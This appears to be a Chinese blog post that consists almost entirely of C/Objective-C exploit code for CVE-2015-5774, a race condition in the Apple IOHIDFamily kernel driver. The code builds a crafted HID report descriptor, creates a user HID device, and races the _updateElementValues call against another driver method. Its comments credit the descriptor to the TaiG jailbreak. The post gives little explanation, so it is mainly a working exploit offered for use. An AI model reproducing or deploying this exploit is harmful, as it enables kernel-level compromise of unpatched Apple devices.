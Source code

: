 ```yaml
---
layout: post
title: CVE-2015-5774利用代码
---
```

{% highlight bash %}
#import <Foundation/Foundation.h>
#include <stdio.h>
#include <stdlib.h>
#include <mach/mach_host.h>
#include <mach/mach_port.h>
#include <IOKit/IOKitLib.h>
#include <IOKit/IOCFSerialize.h>
#include <IOKit/IODataQueueClient.h>
#include <pthread/pthread.h>
#define NSLog(FORMAT,args...) printf("%s\n",[[NSString stringWithFormat:FORMAT,args]UTF8String])
{% endhighlight %}

kern_return_t ret;
io_connect_t hid_connect;

void input_data(void *arg);
int updateElementValuesCall(void);

int main (int argc, const char * argv[])
{
    
    CFMutableDictionaryRef cfdic = CFDictionaryCreateMutable(kCFAllocatorDefault,0x0, &kCFTypeDictionaryKeyCallBacks,&kCFTypeDictionaryValueCallBacks);
    void *byte = malloc(0x1000);
    memset(byte,0x00,0x161);
    input_data(byte);
    CFDataRef data = CFDataCreate(kCFAllocatorDefault,byte,0x161);
    CFStringRef str = CFSTR("ReportDescriptor");
    CFDictionarySetValue(cfdic,str,data);
    CFDataRef list_data = CFPropertyListCreateData(kCFAllocatorDefault,cfdic,0x64,0x0,NULL);
    void *z_data = malloc(0x3000);
    memset(z_data,0x0,0x3000);
    memcpy(z_data,CFDataGetBytePtr(list_data),CFDataGetLength(list_data));
    //FILE *_f = fopen("/test/test.txt","wb");
    //fwrite(z_data,strlen(z_data),1,_f); 导出IOHID描述符
    
    CFDictionaryRef dic = IOServiceMatching("IOHIDResource");
    io_service_t service = IOServiceGetMatchingService(kIOMasterPortDefault,dic);
    
    io_connect_t IOHIDResource_connect;
    if(service==0){
        printf("service is 0\n");
        exit(1);
    }
    ret = IOServiceOpen(service, mach_task_self(),0,&IOHIDResource_connect);
    printf("IOHIDResource:IOServiceOpen ret is %x\n",ret);
    printf("connect is %x\n",IOHIDResource_connect);
    
    natural_t obj_typ;
    mach_vm_address_t obj_add;
    if(mach_port_kobject(mach_task_self(),IOHIDResource_connect,&obj_typ,&obj_add)==KERN_SUCCESS){
        
        UInt64 input=0;
        printf("strnlem is %zu\n",strnlen((char *)z_data,0x30000));
        ret = IOConnectCallMethod(IOHIDResource_connect,0,&input,0x1,z_data,strlen(z_data)+1,NULL,NULL,NULL,NULL);
        printf("IOConnectCallMethod:0x%x\n",ret);
        if(ret!=KERN_SUCCESS){
            exit(1);
        }
    }else{
        printf("Create IOHIDUserDevice: mach_port_kobject !=0\n");
    }
    
    printf("*****Create IOHIDUserDevice*****Success\n");
    
    
    io_iterator_t iterator;
    io_service_t hid_service = 0;
    if(IOConnectGetService(IOHIDResource_connect,&hid_service)!=KERN_SUCCESS){
        printf("IOConnectGetService faild :return 0\n");
        exit(1);
    }
    
    if(IORegistryEntryCreateIterator(hid_service,kIOServicePlane,0x0,&iterator)!=KERN_SUCCESS){
        printf("IORegistryEntryCreateIterator faild\n");
        exit(1);
    }
    
    io_service_t libUser = IOIteratorNext(iterator);
    
    CFMutableDictionaryRef properties;
    ret = IORegistryEntryCreateCFProperties(libUser,&properties,kCFAllocatorDefault,0);
    if(ret!=KERN_SUCCESS){
        printf("IORegistryEntryCreateCFProperties faild\n");
        exit(1);
    }
    ret = IORegistryIteratorEnterEntry(iterator);
    libUser = IOIteratorNext(iterator);
    IORegistryEntryCreateCFProperties(libUser,&properties,kCFAllocatorDefault,0);
    printf("success class is %s\n",CFStringGetCStringPtr(IOObjectCopyClass(libUser),kCFStringEncodingUTF8));
    //NSLog(@"%@",(__bridge NSDictionary*)properties);
    ret = IOServiceOpen(libUser,mach_task_self(),0,&hid_connect);
    if(ret!=KERN_SUCCESS){
        printf("IOHIDUserDevice: IOServiceOpen ret is %d\n",ret);
        exit(1);
    }
    printf("*****get IOHIDUserDevice connect*****Success\n");
    
    mach_vm_address_t atAddress = 0;
    mach_vm_size_t ofSize = 0;
    
    IOConnectMapMemory(IOHIDResource_connect,0,mach_task_self(),&atAddress,&ofSize,kIOMapAnywhere);
    
    
    uint32_t DataQueue_dataSize = 0;
    if(IODataQueuePeek(atAddress)!=0){
        do{
            DataQueue_dataSize = 0;
            IODataQueueDequeue(atAddress,0x0,&DataQueue_dataSize);
        }while (IODataQueuePeek(atAddress)!=0);
    }
    
    uint64_t input[2] = {0,0};
    void *inputStruct = malloc(0x130);
    memset(inputStruct,0xAA,0x130);
    size_t inputStructCnt = 0x130;
    
    pthread_t thread_res = 0;
    
    ret = pthread_create(&thread_res,0,(void *(*)(void *))&updateElementValuesCall,0);
    if(ret!=0){
        printf("pthread_create faild\n");
        exit(1);
    }
    int alright_done = 0;
    int i = 0;
    do{
        usleep(0x7d0);
        if(IODataQueuePeek(atAddress)!=0){
            ret = IOConnectCallMethod(IOHIDResource_connect,0x3,input,0x2,inputStruct,inputStructCnt,NULL,NULL,NULL,NULL);
            if(ret==KERN_SUCCESS){
                input[0] = 0;
                input[1] = 1;
            }
            else{
                printf("IOHIDResource call 0x3 faild\n");
                exit(1);
            }
            alright_done++;
            IODataQueueDequeue(atAddress,0x0,&DataQueue_dataSize);
            if(alright_done>=2) break;
        }
        i++;
    }while(i<=9);
    
    if(alright_done==2){
        printf("Success:index:0x%x\n",i);
    }
    
    sleep(3);
    return 0;
}

int updateElementValuesCall(){
    
    uint64_t update_input[2] = {0x2,0x2}; //太极为{0x2,0x82}
    uint32_t update_outputCnt = 0;
    
    ret = IOConnectCallScalarMethod(hid_connect,0xa,update_input,0x2,NULL,&update_outputCnt);
    if(ret!=KERN_SUCCESS){
        printf("IOConnectCallScalarMethod faild:0x%x\n",ret);
        exit(1);
    }
    else{printf("*****IOHIDLibUserClient::_updateElementValues*****Success\n");
    }
    return 0;
}

void input_data(void *arg) {
    char byte[] = {0x07,0xfe,0xff,0xff,0xff,0x27,0xff,0xff,0xff,0xff,0x17,0xff,0xff,0xff,0xff,0x47,0xff,0xff,0xff,0xff,0x37,0xff,0xff,0xff,0xff,0xa7,0x00,0x00,0x00,0x00,0xb7,0x00,0x00,0x00,0x00,0xa3,0xfd,0xff,0xff,0xff,0x07,0x00,0x00,0x00,0x00,0x0a,0x00,0x00,0x27,0x00,0x00,0x00,0x00,0x17,0x00,0x00,0x00,0x00,0x47,0x00,0x00,0x00,0x00,0x37,0x00,0x00,0x00,0x00,0x67,0x00,0x00,0x00,0x00,0x57,0x00,0x00,0x00,0x00,0x77,0x08,0x00,0x00,0x00,0x97,0x7f,0x00,0x00,0x00,0x87,0x01,0x00,0x00,0x00,0x93,0x03,0x00,0x00,0x00,0x07,0x00,0x00,0x00,0x00,0x0a,0x00,0x00,0x27,0x00,0x00,0x00,0x00,0x17,0x00,0x00,0x00,0x00,0x47,0x00,0x00,0x00,0x00,0x37,0x00,0x00,0x00,0x00,0x67,0x00,0x00,0x00,0x00,0x57,0x00,0x00,0x00,0x00,0x77,0x08,0x00,0x00,0x00,0x97,0x7f,0x00,0x00,0x00,0x87,0x02,0x00,0x00,0x00,0x93,0x03,0x00,0x00,0x00,0xc3,0x00,0x00,0x00,0x00};
    memcpy(arg,byte,sizeof(byte));
    //这段是太极使用的IOHID描述符,解析函数在IOHIDReportDescriptorParser.c的PrintHIDDescriptor函数
}

